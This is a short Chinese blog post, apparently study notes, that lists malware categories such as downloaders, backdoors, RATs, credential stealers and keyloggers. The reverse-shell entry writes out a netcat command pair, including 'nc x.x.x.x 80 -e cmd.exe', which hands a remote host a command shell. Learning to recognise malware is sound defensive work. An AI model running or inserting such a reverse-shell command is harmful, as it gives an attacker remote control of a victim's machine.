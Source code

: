 ```yaml
---
layout: post
title: 恶意程序分析(1)
excerpt: "第一例恶意程序分析"
categories: [恶意程序分析]
comments: true
---
```


#### 恶意代码种类
1. 下载器和启动器:从网上下载其他恶意代码,然后在系统中运行,常用API:URLDownloadtoFileA和WinExec. 启动器(加载器)也是一类可执行文件.启动器通常包含它要加载的恶意代码
2. 后门(backdoor):拥有一套通用的功能,如操作注册表,列举窗口,创建目录,搜索文件等.

3. 反向shell:监听端`nc -l -p 80`,受害端`nc x.x.x.x 80 -e cmd.exe`,其中-e表示连接后运行的程序

4. 远程控制程序(RAT)

5. 登陆凭证窃密器

6. 键盘记录:分为基于内核的键盘记录和基于空间的键盘记录

